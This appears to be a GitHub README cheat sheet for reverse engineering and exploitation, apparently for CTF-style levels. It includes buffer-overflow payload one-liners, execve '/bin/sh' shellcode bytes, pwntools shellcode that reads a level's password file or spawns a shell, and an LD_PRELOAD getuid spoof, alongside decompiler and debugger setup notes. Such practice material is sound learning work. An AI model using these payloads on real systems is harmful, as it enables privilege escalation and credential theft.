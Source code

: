 <picture>
    <source height="100px" srcset="https://user-images.githubusercontent.com/28403617/172731902-a0475209-6730-4a90-996f-f7688d49506e.svg#gh-dark-mode-only" media="(prefers-color-scheme: dark)">
    <img height="100px" src="https://user-images.githubusercontent.com/28403617/172731874-c08c9da6-bac7-4836-b8bc-3744087d30a3.svg#gh-light-mode-only">
</picture>

---

- [Binary ninja](#binary-ninja)
- [Decompile Python Executable](#decompile-python-executable)
- [GCC](#gcc)
- [Lib Injection](#lib-injection)
- [Macro Office PPTM](#macro-office-pptm)
- [OverFlow](#overflow)
- [Shellcode](#shellcode)

# Overflow
### Basic
```bash
(python -c "import struct; print('A' * (100 - 0) + struct.pack('<I', 0xffffffff))")
```

### Shellcode
```bash
(python -c "import struct; print('\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'A' * (100 - 21) + struct.pack('<I', 0xffffffff))")
```

# Shellcode
### Cat
```bash
python -c "import pwn; shell = pwn.asm(pwn.shellcraft.i386.linux.cat('/home/users/level05/.pass')); print(shell); print(len(shell))"
```

### Exec sh 1
```bash
python -c "import pwn; shell = pwn.asm(pwn.shellcraft.i386.linux.sh()); print(shell); print(len(shell))"
```

### Exec sh 2
```
\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
21
```

# GCC
### Get env address
```
x/10s **(char***)&environ
```
## Peda
### Install
```bash
git clone https://github.com/longld/peda.git ~/.peda
echo "source ~/.peda/peda.py" >> ~/.gdbinit
echo "DONE! debug your program with gdb and enjoy"
```

# Binary ninja
### Scrap code from html

```javascript
let result = '';
[...document.querySelectorAll('.LinearDisassemblyLine')].forEach(parent_elmt => {
  [...parent_elmt.children].forEach(children_elmt => {
    result += children_elmt.textContent
  });
  result +=  '\n'
});
console.log(result);
```

# Lib Injection
- Recreate getuid function
```C
uid_t	getuid(void)
{
	return (4242);
}
```
- compile
```bash
gcc -shared -fpic lib.c -o libnike.so -m32
```
- run and inject
```bash
LD_PRELOAD=./libnike.so ./exec
```

# Decompile Python Executable
Convert executable into .pyc
```bash
git clone https://github.com/extremecoders-re/pyinstxtractor
cd pyinstxtractor
python3 pyinstxtractor.py exec
```

Disassembly .pyc (compatible python 3.9.2)
```bash
git clone https://github.com/zrax/pycdc
cd pycdc
cmake
make
./pycdc file.pyc # Convert .pyc into .py
./pycdas file.pyc # Convert .pyc into byte-code disassembly
```

# Macro Office PPTM
### Install
```bash
sudo pip3 install oletools
```

### Decompress PPTM
```bash
olevba  -c file.pptm
```
